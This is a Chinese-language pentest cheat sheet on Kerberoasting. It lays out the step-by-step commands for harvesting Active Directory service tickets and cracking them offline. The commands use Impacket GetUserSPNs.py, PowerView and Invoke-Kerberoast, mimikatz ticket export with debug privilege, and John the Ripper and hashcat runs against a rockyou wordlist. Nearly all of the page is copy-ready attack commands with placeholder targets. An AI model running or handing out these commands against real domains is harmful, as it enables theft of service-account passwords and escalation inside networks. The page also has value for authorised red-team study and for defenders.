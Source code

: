 ```yaml
---
description: 基于Kerberos认证 / 获取TGS后进行离线暴破从而获取明文密码
---
```


# ✔️ Kerberoasting攻击

## 先决条件

* 已经获得目标域内的基本立足点（普通用户权限即可）
* 需要目标域内用户账户的SPN
* 需要获取到服务票据（TGS）
* 暴破工具 + 字典文件

## 常用工具

### Impacket

* 常用脚本：**GetUserSPNs.py**

```bash
# 识别SPN
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx
# 请求服务票据TGS
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx -request
# 导出票据文件
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx -request -outputfile hash.txt
```

### Powershell

* 常用脚本：**PowerView.ps1**

```powershell
# 识别SPN
Get-NetUser -username "svc_tgs" -SPN | select samaccountname, primarygroupid, serviceprincipalname

Import-Moudle .\PowerView.ps1
Get-NetUser -SPN

# Empire，指定获取到的票据以适用于hashcat暴破的格式输出
Import-Module .\Invoke-kerberoast.ps1
Invoke-Kerberoast -Domain target.com -OutputFormat Hashcat | fl

# 导出所有票据（和mimikatz类似）
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### mimikatz.exe

```powershell
mimikatz.exe
# 先提升权限
privilege::debug
# 查看当前票据
kerberos::list
# 获取当前的所有票据并导出
sekurlsa::tickets /export
# 将导出的.kirbi文件转换成txt文件，在用john the ripper或者hashcat进行离线暴破
```

### kerberoast

* 常用脚本：**tgscrepcrack.py、**&#x47;etUserSPNs.ps1、GetUserSPNs.vbs

```bash
# 离线暴破
python3 tgscrepcrack.py rockyou.txt xxxxxxxxxxxxxxxxxxxxx.kirbi
```

### John the Ripper

```bash
# 离线暴破
john --format=krb5tgs hash.txt rockyou.txt
```

### Hashcat

```bash
# 离线暴破
hashcat -m 13100 hash.txt rockyou.txt
```

{% hint style="info" %}
Kerberoasting攻击在内网渗透中很常见，本质上是通过获取目标域内的服务账户的服务票据（TGS），然后通过离线爆破来还原出明文密码。该攻击方式仅需要有目标域内的普通用户账户权限即可向DC请求相关的TGS。
{% endhint %}
